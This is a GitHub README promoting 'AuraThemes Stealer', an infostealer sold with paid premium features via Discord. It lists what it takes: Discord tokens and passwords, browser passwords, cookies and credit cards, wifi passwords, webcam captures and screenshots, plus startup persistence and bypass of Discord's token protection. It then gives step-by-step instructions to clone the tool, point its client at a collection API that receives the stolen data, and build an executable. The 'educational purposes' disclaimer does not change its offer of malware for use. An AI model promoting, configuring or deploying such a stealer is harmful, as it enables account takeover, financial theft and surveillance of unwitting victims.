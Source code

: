 # <a id="home"></a> AuraThemes - Stealer

## Littleraly One Of The Best Stealer

---

#### [Discord](https://discord.gg/5BJa778F7B) - [Build](#salepute) 

AuraThemes Stealer: Steal discord tokens and get privileged access!

Our powerful AuraThemes Stealer is a tool designed to help get Discord tokens to access user accounts. With the built-in API, you don't run the risk of your Webhook disappearing. <br>
<br>

the best version of a (stealer), in this case it is AuraThemes, with the best form of an OP version

✅: Premium Features (20€ - Join Discord)

## Features
- Grabs Discord Token
- Discord Password (even when it's changed)
- IP Address (Public)
- Discord New Email (when Changed)
- Discord New Password (when Changed)
- Alert When MFA is Enabled
- Alert When MFA is Disabled
- Mac Address (✅)
- UUID (✅)
- Windows Product Key (✅)
- Local IP (✅)
- Wifi Passwords (✅)
- Bot Builder (✅)
- Alert When Paypal Is Added (✅)
- Credit Card When Added (✅)
- Browsers Passwords & Cookies (✅)
- More PC Infos (✅)
- Webcam & Screenshot (✅)
- Steam (✅)
- Add To Startup (✅)
- AutoFill (✅)
- Browsers Credit Cards (✅)
- Stored Discord Backup Codes (✅)
- BookMarks (✅)
- Browsers History (✅)
- Bypass Discord Token Protection (✅)
- Minecraft Grabber (✅)
- In Dev And More...

## <a id="salepute"></a> Free Version Installation

When Done: 
```bash
git clone https://github.com/k4itrun/AuraTokenGrabber
```
```bash
cd AuraTokenGrabber
```
```bash
npm i -g
```
```bash
Setup Your desktopServer/server.js in repl.it
In the desktopClient/client.js replace https://yourapi.com by your api
```
```js
10 | apiurl = "http://yourapi.com" // Put Your API URL Here in desktopClient/client.js
```
```bash
node desktopClient/client.js
```
```bash
build EXE: npm run build
```
---
### THIS SCRIPT was made for Educational purposes
[Home](#home)

## README Spanish soon...